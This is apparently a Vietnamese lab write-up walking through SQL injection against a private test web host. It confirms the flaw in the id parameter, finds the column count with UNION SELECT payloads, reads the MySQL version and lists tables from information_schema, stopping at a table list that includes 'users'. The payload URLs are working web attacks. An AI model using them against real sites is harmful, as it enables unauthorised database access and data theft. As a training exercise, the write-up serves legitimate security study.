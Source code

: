 ### Người thực hiện: Trần Ngọc Nam
### Thời gian thực hiện: 30/03/2022

# Cách làm:
- Check xem web có bị lỗi sql injection không? SQL có 2 dạng để check: dựa trên số(?id=1) hoặc dạng chuỗi(string). Nhưng dựa theo cấu trúc web nên ta chọn check theo id.
  - Đầu tiên, ta thử chèn dấu ' vào http://192.168.216.129/cat.php?id=1
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=1'

    Kết quả trả về:
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
  ```
  - Điều này chưa kết luận được web có lỗi sql injection không. Nên ta tiếp thực thử truyền phép tính vào url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=2-1
  ```
  - Kết quả trả về là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web có thể lỗi sql injection.
  - Ta thực hiện thêm 1 lần truyền phép tính vào thanh url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=3-2
  ```
  - Kết quả trả về vẫn là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web đã lỗi sql injection.

- Tiếp theo, ta check số cột của database bằng toán tử union. Ta check số lượng từ 1 và tăng dần
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1
    http://192.168.216.129/cat.php?id=1 union select 1,2
    http://192.168.216.129/cat.php?id=1 union select 1,2,3
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
  ```
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,@@version,3,4

  Kết quả trả về: 5.1.63-0+squeeze1
  ```
- Tiếp theo, ta check tên các table có trong database
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables
  ``` 
- Kết quả trả về gồm rất nhiều table như sau:

    | No. | Table                                          |
    | --- | ---------------------------------------------- |
    | 1   | picture: ruby                                  |
    | 2   | picture: cthulhu                               |
    | 3   | picture: character_sets                        |
    | 4   | picture: collations                            |
    | 5   | picture: collation_character_set_applicability |
    | 6   | picture: columns                               |
    | 7   | picture: column_privileges                     |
    | 8   | picture: engines                               |
    | 9   | picture: events                                |
    | 10  | picture: files                                 |
    | 11  | picture: global_status                         |
    | 12  | picture: global_variables                      |
    | 13  | picture: key_column_usage                      |
    | 14  | picture: partitions                            |
    | 15  | picture: plugins                               |
    | 16  | picture: processlist                           |
    | 17  | picture: profiling                             |
    | 18  | picture: referential_constraints               |
    | 19  | picture: routines                              |
    | 20  | picture: schemata                              |
    | 21  | picture: schema_privileges                     |
    | 22  | picture: session_status                        |
    | 23  | picture: session_variables                     |
    | 24  | picture: statistics                            |
    | 25  | picture: tables                                |
    | 26  | picture: table_constraints                     |
    | 27  | picture: table_privileges                      |
    | 28  | picture: triggers                              |
    | 29  | picture: user_privileges                       |
    | 30  | picture: views                                 |
    | 31  | picture: categories                            |
    | 32  | picture: pictures                              |
    | 33  | picture: users                                 |